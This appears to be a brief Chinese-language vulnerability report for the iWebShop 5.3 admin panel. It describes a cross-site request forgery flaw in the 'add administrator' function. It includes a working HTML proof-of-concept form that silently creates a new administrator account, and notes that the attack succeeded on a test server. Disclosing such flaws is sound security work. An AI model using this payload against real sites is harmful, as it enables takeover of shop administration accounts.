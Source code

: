 **iWebShop5.3后台存在CSRF漏洞**

1.在`管理员`->`添加管理员`功能处存在CSRF漏洞

！[image] （http://wx2.sinaimg.cn/mw690/0060lm7Tly1g0vg867mdmj30tz0nt75j.jpg）
POC

`<html>`

  <body>

  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.138.132/iw/index.php?controller=system&action=admin_edit_act" method="POST">
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="admin&#95;name" value="test" />
      <input type="hidden" name="password" value="test888" />
      <input type="hidden" name="repassword" value="test888" />
      <input type="hidden" name="role&#95;id" value="0" />
      <input type="hidden" name="email" value="1&#64;qq&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  `</body>`
`</html>`

验证

![image] (http://wx1.sinaimg.cn/mw690/0060lm7Tly1g0vg868y55j31ef0il0v8.jpg)

发现可以添加后台管理员

官网链接

`http://www.aircheng.com/`

